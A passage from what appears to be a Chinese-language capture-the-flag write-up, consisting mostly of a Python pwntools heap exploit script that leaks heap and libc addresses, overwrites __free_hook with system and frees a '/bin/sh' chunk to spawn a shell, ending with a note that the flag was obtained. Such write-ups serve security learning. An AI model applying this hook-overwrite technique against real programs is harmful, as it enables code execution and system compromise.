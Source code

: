 ```python
print 'heap_addr-->'+hex(heap_addr)
add(0x80,'cccccccc',0x60,'dddddddd')
add(0x20,'/bin/sh',0x20,'/bin/sh')
delete(2)

edit(1,p64(1)+p64(heap_addr+0x30)+p64(heap_addr+0x180+0x50)+p64(0x20))
change('a'*0x20)
show()

libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-88-0x10-libc.symbols['__malloc_hook']
__malloc_hook = libc_base+libc.symbols['__malloc_hook']
realloc = libc_base+libc.symbols['realloc']
print 'libc_base-->'+hex(libc_base)
__free_hook=libc_base+libc.symbols['__free_hook']
system=libc_base+libc.symbols['system']
edit(1,p64(__free_hook)+'\x10')
print '__free_hook-->'+hex(__free_hook)

edit(3,p64(system))
delete(3)
p.interactive()
```

成功拿到flag:

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/one/one21.png?x-oss-process=style/watermark)
